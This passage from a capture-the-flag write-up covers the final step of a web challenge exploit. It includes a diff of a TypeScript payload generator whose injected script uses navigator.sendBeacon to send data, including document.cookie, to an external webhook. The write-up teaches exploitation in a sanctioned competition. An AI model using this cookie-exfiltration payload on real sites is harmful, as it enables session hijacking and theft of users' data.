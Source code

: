 ## write flag where

> 20 minutes remain.

Now that we have all the pieces, all that's left are to put them together! (And to also fix all the bugs in my payload such as missing `\\`s, whoops). 

After repeating the above deployment sites for the third time on the actual challenge instance, my webhook _finally_ started receiving payloads such as
![604e199796658c961c615282f4130f6a.png](/assets/posts/veggiesoda/598c8ef862e04b5988f592b59227e2b6.png)

There's just one problem left.

![76453036f5b684d9868bc536c5afaa98.png](/assets/posts/veggiesoda/3b2a5519b22248508395679aefccbb7f.png)

With just ten minutes to spare, I realized that the flag was _probably_ in `document.cookie` and submitted an updated payload with a separate UUID:

```diff
--- payload-gen.ts
+++ payload-gen.ts
@@ -1,4 +1,4 @@
-// payload-gen.ts version 1 (spoiler alert: this has bugs!)
+// payload-gen.ts version 3
 import { Serializer } from "https://deno.land/x/superserial/mod.ts";
 import Post from './Post.ts';
 import Log from './Log.ts';
@@ -14,6 +14,8 @@
     let ROOT = "https://vegsoda-web.2023.ctfcompetition.com/";
     let load = (i, s) => { i.src = s; return new Promise(r => i.onload = () => { i.onload = null; r(i.contentWindow.document.body.innerHTML) }) };
     let yoink = (s) => navigator.sendBeacon("[webhook]?q=" + encodeURIComponent(JSON.stringify(s)));
+    yoink("payload deployed!");
+    yoink(document.cookie);
     (async () => {  
         let i = document.createElement("iframe");
         document.body.appendChild(i);
```
<center>